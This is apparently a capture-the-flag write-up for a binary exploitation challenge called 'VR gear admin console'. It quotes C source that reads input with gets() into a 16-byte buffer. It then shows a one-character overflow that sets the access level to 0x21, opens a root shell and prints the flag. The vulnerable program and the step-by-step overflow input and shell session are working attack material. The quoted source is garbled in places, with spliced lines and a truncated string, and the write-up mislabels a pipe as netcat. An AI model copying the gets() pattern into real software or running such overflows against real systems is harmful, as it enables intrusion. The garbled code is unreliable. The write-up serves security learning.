 # VR Gear Console
---
### Question
Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: /problems/51645e84d55d376442beaf264e0908b9

### HINTS

What happens if you read in more characters than the length of the username buffer?
You should look at an ascii table to see what character you need to choose.
Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
"cat file - | vrgearconsole " will keep the pipe open for commands.

---
# Solution

 So here comes the last challenge of Binary exploitation of Level 2. Let's go to dir: ```/problems/51645e84d55d376442beaf264e0908b9```
 
 So, we got 3 files in the directory.
 
 ```bash 
 $ls
 flag.txt  vrgearconsole  vrgearconsole.c
 ```
   
1. Lets check what is written in ```vrgearconsole.c``` file.
    ```C
    cat vrgearconsole.c                        
    #include <stdlib.h>                                     
    #include <stdio.h>                                      
                                                            
    int login() {                                           
        int accessLevel = 0xff;                             
        char username[16];                                  
        char password[32];                                  
        printf("Username (max 15 characters): ");           
        gets(username);                                     
        printf("Password (max 31 characters): ");           
        gets(password);                                     
                                                            
        if (!strcmp(username, "admin") && !strcmp(password, 
    "{{ create_long_password() }}")) {                      
            accessLevel = 2;                                
        } else if (!strcmp(username, "root") && !strcmp(pass
    word, "{{ create_long_password() }}")) {                
            accessLevel = 0;                                
        } else if (!strcmp(username, "artist") && !strcmp(pa
    ssword, "my-password-is-secret")) {                     
            accessLevel = 0x80;                             
        }                                                   
                                                            
        return accessLevel;                                 
    }                                                       
                                                            
    int main(int argc, char **argv) {                       
        setbuf(stdout, NULL);                               
        printf(                                             
            "+----------------------------------------+\n"  
            "|                                        |\n"  
            "|                                        |\n"  
            "|                                        |\n"  
            "|                                        |\n"  
            "|  Welcome to the VR gear admin console  |\n"  
            "|                                        |\n"  
            "|                                        |\n"  
            "|                                        |\n"  
            "|                                        |\n"  
            "+----------------------------------------+\n"  
            "|                                        |\n"  
            "|      Your account is not recognized    |\n"  
            "|                                        |\n"  
            "+----------------------------------------+\n"  
            "\n\n\n\n"                                      
            "Please login to continue...\n\n\n"             
        );                                                  
        int access = login();                               
                                                            
        printf("Your access level is: 0x%08x\n", access);   
                                                            
        if (access >= 0xff || access <= 0) {                
            printf("Login unsuccessful.\n");                
            exit(10);                                       
        } else if (access < 0x30) {                         
            printf("Admin access granted!\n");              
            system("/bin/sh");s in \"flag.txt\".\n");       
                                                            
        } else {                                            
            printf("Login successful.\n");                  
            printf("You do not have permission to access thi
            exit(1);                                        
                                                            
        }                                                   
    }
    ```
    
    Now as you can see 
    ```C
    int accessLevel = 0xff;                             
        char username[16];                                  
        char password[32];
    ```
    
    0xff is 255. So we can enter 16 character in the username field. But What if we give 1 more character, then maybe with the grace of god we will get something good.
    
2. Lets try it out, 
    
    ```bash
    $spirit="spiritedwolflove"
    $echo -n $spirit | wc -c
    16
    ```
    
    Now if we enter ```! ``` after love then it will look like this ```spiritedwolflove!```
    
3. Lets echo it out in one file name ```spirit```. In current folder we don't have permission to write so we will write in ```~``` home directory.
    ```bash
    echo "spiritedwolflove!" > ~/spirit
    ```
    
4. Now use ```cat``` + ```pipe``` + ```netcat```:
   
    ```bash
    $cat ~/spirit - | ./vrgearconsole          
    +----------------------------------------+
    |                                        |
    |                                        |
    |                                        |
    |                                        |
    |  Welcome to the VR gear admin console  |
    |                                        |
    |                                        |
    |                                        |
    |                                        |
    +----------------------------------------+
    |                                        |
    |      Your account is not recognized    |
    |                                        |
    +----------------------------------------+
    
    Please login to continue...
    
    Username (max 15 characters): Password (max 31 character
    s): --> Here press enter
    Your access level is: 0x00000021
    Admin access granted!
    The flag is in "flag.txt".
    ~ls
    flag.txt  vrgearconsole  vrgearconsole.c
    ~cat flag.txt
    8b7ea70220f19ab662750a8710a552c4
    ```
    
    
 So, i think we got the flag ```8b7ea70220f19ab662750a8710a552c4```.
 
 Hope you liked it :)
 
   ~Thanks
   
   [@spiritedwolf](https://github.com/spiritedwolf)

---

